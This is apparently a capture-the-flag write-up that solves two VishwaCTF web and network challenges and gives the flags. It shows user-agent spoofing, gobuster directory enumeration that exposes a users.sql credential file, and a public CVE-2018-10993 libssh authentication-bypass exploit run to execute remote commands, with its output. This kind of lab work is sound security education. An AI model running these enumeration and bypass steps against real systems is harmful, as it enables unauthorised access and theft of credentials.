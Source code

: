 ## Task 1: Trip To Us
Question: IIT kharakpur is organizing a US Industrial Visit. The cost of the registration is $1000. But as always there is an opportunity for intelligent minds. Find the hidden login and Get the flag to get yourself a free US trip ticket.

Flag: `VishwaCTF{y0u_g0t_th3_7r1p_t0_u5}`

We are given a website of a US Industrial Visit form.

![image](https://github.com/warlocksmurf/onlinectf-writeups/assets/121353711/fe2a1369-f2df-4d11-8349-917849810811)

However, pressing the `Click Here` button leads us to an error page. So I analyze the source code to find out how I can bypass this page.

![image](https://github.com/warlocksmurf/onlinectf-writeups/assets/121353711/5889dfd8-2206-4a32-96b3-ed28437d0328)

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>HomePage</title>
    <style>
        .container {
            text-align: center;
            border: 2px solid black;
            margin-top: 10px;
            background-color: red;
            height: 100pt;

        }
        img{
            border-radius: 10px;
        }
    </style>
</head>
<body>
    <div class="container">
    
                    <div class="container">
            <h1>YOU ARE NOT AN IITAIN , GO BACK!!!!!!!</h1>
            <img src="./Images/GoBack.webp" alt="Change User agent to 'IITIAN'">
            </div>       
                </div>
</body>
</html>
```

It mentions changing the user agent to `IITIAN`, so I went ahead and downloaded an [extension](https://addons.mozilla.org/en-US/firefox/addon/uaswitcher/) that can change user agents on Firefox. With the user agent changed, we are able to access a new page.

![image](https://github.com/warlocksmurf/onlinectf-writeups/assets/121353711/373de347-76f5-4619-bad0-eaccb48f0ffc)

![image](https://github.com/warlocksmurf/onlinectf-writeups/assets/121353711/b1f78520-ffe7-4dcd-b932-a32dd8e7d5f1)

Reading the page source code again, there was nothing interesting that can help me obtain the flag. They did provide the username for the login so that will be used later.

```
<!DOCTYPE html>
<html>
<head>
	<title>LOGIN</title>
	<link rel="stylesheet" type="text/css" href="style.css">
	<style>
img{
    width: 100%;
    position: absolute;
    z-index: -1;
}
    </style>
</head>
<body>
	<img class= "bg" src="./Images/IIT.avif" alt="USE username as: admin">
	<h1>Welcome to IIT Kharakpur, US trip form</h1>
    <p style="font-size:20px;"><strong>Login to get your registration ID</strong></p>
    <form action="user-validation.php" method="post">
     	<h2>LOGIN</h2>
     	     	<label>User Name</label>
     	<input type="text" name="uname" placeholder="User Name"><br>

     	<label>User Name</label>
     	<input type="password" name="password" placeholder="Password"><br>

     	<button type="submit">Login</button>
    </form>
</body>
</html>
```

So I attempt to enumerate directories of the original website and found interesting results. It seems that there is database stored in the website.

```
└─$ gobuster dir --url ch66423157504.ch.eng.run -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://ch66423157504.ch.eng.run
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/Images               (Status: 301) [Size: 337] [--> http://ch66423157504.ch.eng.run/Images/]
/db                   (Status: 301) [Size: 333] [--> http://ch66423157504.ch.eng.run/db/]
/backups              (Status: 301) [Size: 338] [--> http://ch66423157504.ch.eng.run/backups/]
...
```

Checking out the database path, the `users.sql` database can be found which stores account credentials.

![image](https://github.com/warlocksmurf/onlinectf-writeups/assets/121353711/a66fd027-9e90-431b-9f48-1f6ec4403b4f)

![image](https://github.com/warlocksmurf/onlinectf-writeups/assets/121353711/ae9542bb-193d-40aa-ac09-c505b5f20bd1)

Use the credentials to login and get the flag.

![image](https://github.com/warlocksmurf/onlinectf-writeups/assets/121353711/d0ec789c-8a89-42ee-a4fb-5ad74561635b)

## Task 2: Save The City
Question: The RAW Has Got An Input That ISIS Has Planted a Bomb Somewhere In The Pune! Fortunetly, RAW Has Infiltratrated The Internet Activity of One Suspect And They Found This Link. You Have To Find The Location ASAP!

Flag: `VishwaCTF{elrow-club-pune}`

We are given a netcat connection and using the command, we get a weird SSH version and it disconnects automatically after a few seconds. My teammate @Shen managed to find out what this meant.

```
└─$ nc 13.234.11.113 32657
SSH-2.0-libssh_0.8.1

Bye Bye                                                                                                                                                      
```

He mentioned that this was related to a CVE, specifically CVE-2018-10993. Using an [exploit](https://gist.github.com/mgeeky/a7271536b1d815acfb8060fd8b65bd5d) on GitHub, we can perform commands remotely via the exploit.

```
└─$ python cve-2018-10993.py 13.234.11.113 -p 32657 -c 'ls'

    :: CVE-2018-10993 libSSH authentication bypass exploit.
    Tries to attack vulnerable libSSH libraries by accessing SSH server without prior authentication.
    Mariusz B. / mgeeky '18, <mb@binary-offensive.com>
    v0.1
    
bin
boot
dev
etc
home
lib
lib64
location.txt
media
mnt
opt
proc
root
run
sbin
srv
ssh_server_fork.patch
sys
tmp
usr
var
```

A suspicious text file can be found, the flag was in it.

```
└─$ python cve-2018-10993.py 13.234.11.113 -p 32657 -c 'cat location.txt'

    :: CVE-2018-10993 libSSH authentication bypass exploit.
    Tries to attack vulnerable libSSH libraries by accessing SSH server without prior authentication.
    Mariusz B. / mgeeky '18, <mb@binary-offensive.com>
    v0.1
    
elrow-club-pune
```
